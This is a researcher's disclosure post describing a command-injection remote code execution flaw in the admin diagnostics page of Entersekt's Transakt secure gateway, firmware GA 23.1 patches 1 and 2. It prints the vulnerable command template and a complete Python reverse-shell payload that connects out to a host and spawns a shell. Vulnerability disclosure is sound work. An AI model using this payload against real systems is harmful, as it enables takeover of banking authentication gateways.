 ```yaml
---
layout: post
title:  "Entersekt Transakt secure gateway - Remote Code Execution via OpenSSL diagnostics in GA 23.1-4824 patch 1 and GA 23.1-4825 patch 2"
datetime: 2024-11-03 23:40:00 MET
last_modified_at: 2024-11-03 23:40:00 MET
author: 'psytester'
---
```


The product “Transakt” from [Entersekt](https://www.entersekt.com/company/about-us) is known / used in financial market latest since European PSD2 as 2-FA authentication.
There are whitelabel smartphone apps from different financial institutions [play store search for 'com.entersekt.authapp'](https://play.google.com/store/search?q=com.entersekt.authapp)

They may use the "secure gateway" hardware as on-premise installation.

Login into Web UI as admin, go to main tab `Diagnostics`, select sub tab `Network Diagnostics`.<br>
For this OpenSSL Connect check, the input field needs to end with a `:port` in input field to be valid. Ok ;-)<br>
Since the "Target server" input field is not sanitized, we can start a reverse shell by calling `[Start OpenSSL Connect]`.<br>

Internally the command is executed
```
;sh -c `echo | openssl s_client -connect <payload>
```

Payload to trigger reverse shell and to fullfill the `:port` at the end
```
; /usr/bin/python3 -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")' ; :443
```

We are connected from the system with user `tomcat` :-)

Firmware GA 23.1-4824 patch 1 introduced the possibility of network diagnostics via an OpenSSL connect and opened the door for this Remote Code Execution.<br>
Months later I found this vulnerability and reported it. Entersekt confirmed and stated "already fixed with patch 3".<br>
Firmware GA 23.1-4825 patch 2 was vulnerable too.<br>
Firmware GA 23.1-4826 patch 3 closed the RCE possibility, but without any "security fix" reference nor CVE entry in changelog.<br>

The access should be possible only from internal network behind a DMZ and as user with admin role.<br>
But why do I write this post? Maybe I think "Be honest about known vulnerabilities", because you will not find any advisory or CVE about this.

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2024 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
